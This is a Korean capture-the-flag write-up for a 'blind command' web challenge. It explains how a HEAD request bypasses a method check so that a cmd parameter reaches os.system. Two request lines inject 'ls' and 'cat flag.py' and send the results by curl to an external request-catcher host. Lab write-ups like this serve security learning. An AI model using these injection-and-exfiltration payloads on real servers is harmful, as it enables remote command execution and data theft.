 ## 📍blind command

```
Read the flag file XD
```


![](Attachments/{7E814FC8-CFF4-4D67-8FF6-0BAF0725AE57}.png)

![](Attachments/{3A5D69F6-5307-43B4-8303-0E3C91B67296}.png)

`[cmd]` 부분을 그대로 출력한다.


#### 소스코드

![](Attachments/{03D52CB1-EA39-4C7F-9518-F9BC0D2CA848}.png)

GET 요청만 허락하면서 GET 요청이 아니어야 `os.system(cmd)` 함수가 실행되는 괴상한 코드이다.

OPTIONS 메소드로 요청을 보내보면
GET, HEAD, OPTIONS 메소드는 허용된다.
![](Attachments/{BFA9628F-F98F-42A2-98EB-549D67BCEE1D}.png)
![](Attachments/{EE8B758B-43FF-4CD3-8879-497F78C28951}.png)
![](Attachments/{CD98C281-DA84-43DA-ABD9-16276683C344}.png)

OPTIONS 메소드는 지원되는 메소드를 확인할 때만 사용하므로 남은 건 HEAD 뿐이다.
**HEAD** 메소드는 리소스를 GET으로 요청했을 때 응답으로 오는 헤더 부분만 요청하는 메소드이다.


#### Burp Suite
드림핵 툴즈에서 생성한 URL로 `ls` 커맨드를 실행하는 HEAD 요청을 보냈다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(ls)%22 HTTP/1.1
```

![](Attachments/{D7436335-FEE3-4136-B16B-2AB922C7878B}.png)

`ls` 명령 결과가 나타난다.
`flag.py` 파일이 존재하는 것을 알 수 있다.

![](Attachments/{2243164D-757D-4C8F-982B-3BAC0907681F}.png)

`cat flag.py` 커맨드를 수행하는 요청을 전송한다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(cat%20flag.py)%22 HTTP/1.1
```

![](Attachments/{5F15C2A8-C9A2-4068-9E55-D99B74AE58E2}.png)